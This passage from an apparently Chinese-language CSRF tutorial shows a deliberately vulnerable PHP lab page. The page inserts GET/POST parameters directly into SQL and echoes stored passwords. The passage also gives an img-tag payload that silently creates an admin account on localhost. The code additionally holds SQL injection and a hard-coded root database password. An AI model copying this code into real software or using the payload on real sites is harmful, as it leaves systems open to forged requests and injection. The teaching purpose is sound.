 - 用户访问对应URL



## 0x03 GET型CSRF

代码如下：

```php
<?php
header("Content-Type:text/html;charset=utf-8");
    $username = $_GET['username'];
    $password = $_GET['password'];
    $conn = mysql_connect("localhost", "root", "123456");
    $db = mysql_select_db("csrf_test");
    $query = mysql_query("SET NAMES 'gbk'");
    $sql = "INSERT INTO `adminsql` (`id`, `username`,`password`) VALUE (13, '$username', '$password')";
    $row = mysql_query($sql);    //执行sql插入语句
    $sql = "SELECT * FROM adminsql";
    if($row = mysql_query($sql)){
        while($rows = mysql_fetch_array($row)){
            echo "user:{$rows['username']}-----pass:{$rows['password']}"."<br/>";
        }
    }
?>
<!DOCTYPE html>
<html>
<head>
    <title>CSRF测试平台</title>
</head>
<body>
<b><h2>GET型 CSRF</h2></b>
<p>需要GET提交 username，password</p>
</body>
</html>
```

 构造GET型UTL，提交username和password参数，以此来新建对应的用户名和密码。

http:127.0.0.1/csrf_test/get_csrf/new_user.php?username=admin1111&password=12323

隐蔽利用 img标签 src属性，并将下面这个标签放在一个html文件中发给用户。

\<img src="http:127.0.0.1/csrf_test/get_csrf/new_user.php?username=admin1111&password=12323"\>



## 0x04 POST型CSRF

代码如下：

```php
<?php
header("Content-Type:text/html;charset=utf-8");
if(isset($_POST['sub'])){
    $username = $_POST['username'];
    $password = $_POST['password'];
    $conn = mysql_connect("localhost", "root", "123456");
    $db = mysql_select_db("csrf_test");
    $query = mysql_query("SET NAMES 'gbk'");
    $sql = "INSERT INTO `adminsql` (`id`, `username`,`password`) VALUE (13, '$username', '$password')";
    $row = mysql_query($sql);    //执行sql插入语句
    $sql = "SELECT * FROM adminsql";
    if($row = mysql_query($sql)){
        while($rows = mysql_fetch_array($row)){
            echo "user:{$rows['username']}-----pass:{$rows['password']}"."<br/>";
```